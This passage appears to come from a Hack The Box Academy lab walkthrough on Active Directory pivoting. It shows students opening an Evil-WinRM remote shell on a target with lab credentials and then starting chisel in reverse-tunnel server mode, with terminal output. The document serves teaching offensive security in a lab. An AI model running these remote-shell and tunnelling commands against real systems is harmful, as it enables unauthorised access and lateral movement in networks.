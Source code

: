 Code: session

```
PS C:\Users\Leonvqz> ping DC01

Pinging dc01.inlanefreight.local [172.20.0.10] with 32 bytes of data:
Reply from 172.20.0.10: bytes=32 time<1ms TTL=128
Reply from 172.20.0.10: bytes=32 time<1ms TTL=128
Reply from 172.20.0.10: bytes=32 time<1ms TTL=128
Reply from 172.20.0.10: bytes=32 time<1ms TTL=128

Ping statistics for 172.20.0.10:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

Students will return to their workstations and open a new terminal tab, and they will establish a second `Evil-WinRM` on the initial target (`SRV01`):

Code: shell

```shell
evil-winrm -i STMIP -u Frewdy -p Kiosko093
```

```
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-fwzmhuxy3m]─[~]
└──╼ [★]$ evil-winrm -i 10.129.145.58 -u Frewdy -p Kiosko093
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Frewdy\Documents>
```

Subsequently, students will start the previously uploaded `chisel` executable in `server` mode:

Code: shell

```shell
.\chisel.exe server --reverse --port 8081
```

```
*Evil-WinRM* PS C:\Users\Frewdy\Documents> .\chisel.exe server --reverse --port 8081

chisel.exe : 2024/07/12 01:22:23 server: Reverse tunnelling enabled
    + CategoryInfo          : NotSpecified: (2024/07/12 01:2...nelling enabled:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/07/12 01:22:23 server: Fingerprint tZEnxjQoHuGTZMGyZaHAsLPInIbMl9DuGUEX3OiI8lI=2024/07/12 01:22:23 server: Listening on http://0.0.0.0:80812024/07/12 01:22:46
```
